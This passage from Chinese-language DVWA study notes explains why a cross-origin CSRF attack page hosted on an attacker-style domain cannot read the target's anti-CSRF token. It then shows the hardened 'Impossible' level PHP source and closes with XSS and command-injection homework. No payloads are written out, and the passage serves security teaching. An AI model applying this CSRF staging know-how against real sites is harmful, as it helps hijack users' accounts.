

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架`iframe`访问的地址是`http://127.0.0.1/dvwa/vulnerabilities/csrf`，位于服务器`127.0.0.1`上，而如果我们的攻击页面位于黑客服务器`1.self.com`上（可以通过修改本地hosts文件设置）
`C:\Windows\System32\drivers\etc\hosts`

，两者的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以我们的攻击脚本是不可能取到改密界面中的`user_token`。
chrome浏览器console会提示如下错误


由于跨域问题，以我们要将攻击代码注入到目标服务器`127.0.0.1`中，才有可能完成攻击，就像图x。关于跨域问题在后面学习XSS漏洞时会有更详细的学习。

## 4. Impossible
### 代码


```
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $pass_curr = $_GET[ 'password_current' ]; 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Sanitise current password input 
    $pass_curr = stripslashes( $pass_curr ); 
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
    $pass_curr = md5( $pass_curr ); 

    // Check that the current password is correct 
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' ); 
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR ); 
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR ); 
    $data->execute(); 

    // Do both new passwords match and does the current password match the user? 
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) { 
        // It does! 
        $pass_new = stripslashes( $pass_new ); 
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
        $pass_new = md5( $pass_new ); 

        // Update database with new password 
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' ); 
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR ); 
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR ); 
        $data->execute(); 

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match or current password incorrect.</pre>"; 
    } 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```
可以看到，Impossible级别的代码利用PDO技术防御SQL注入，至于防护CSRF，则要求用户输入原始密码（简单粗暴），攻击者在不知道原始密码的情况下，无论如何都无法进行CSRF攻击。

## 5. 参考
1. https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html
2. http://www.freebuf.com/articles/web/118352.html

# 作业
## 1. CSRF
查找资料，完成DVWA漏洞模块CSRF的学习，提交详细学习笔记。
## 2. XSS
完成DVWA漏洞类型XSS的学习，提交详细学习笔记。
## 3. 复习Command Injection
完成对下面两道CTF题的学习，并提交详细学习笔记
* [babyfirst-revenge](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge/index.php)
* [babyfirst-revenge-v2](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/index.php)
